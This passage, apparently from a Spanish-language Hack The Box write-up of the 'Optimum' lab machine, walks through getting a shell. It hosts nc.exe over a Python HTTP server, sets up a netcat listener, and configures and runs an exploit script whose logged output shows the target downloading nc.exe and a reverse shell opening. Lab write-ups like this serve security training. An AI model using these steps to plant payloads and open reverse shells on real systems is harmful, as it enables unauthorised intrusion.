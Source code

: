 Antes de ejecutar el script, lo primero que debemos hacer es alojar un servidor web en nuestra máquina para enviar el binario de `nc.exe` a la máquina del objetivo y de esta forma tener una shell. Para esto vamos a usar Python.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 80                                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora, vamos a descargar el archivo `nc.exe` en el siguiente [link](https://eternallybored.org/misc/netcat/) y procedemos a iniciar una sesión en netcat en nuestra máquina.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #rlwrap nc -nlvp 443                                                                               
listening on [any] 443 ...
```
Para ejecutar el script correctamente debemos cambiar las siguientes variables

```python
ip_addr = "10.10.14.15" # Dirección IP de la máquina del atacante

local_port = "443" # Puerto que hayamos establecido anteriormente en el listener de nc
```

Procedemos a ejecutar el script de la siguiente manera. Cabe aclarar que se debe ejecutar 2 veces, ya que en la primera se carga el binario `nc.exe` y en la segunda vez sí nos entabla la shell.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python exploit.py 10.10.10.8 80

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [29/Jun/2020 13:51:24] "GET /nc.exe HTTP/1.1" 200 -

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python exploit.py 10.10.10.8 80

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.                                                    
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas                                                                                          
C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt                                   
d0c394.............................
```
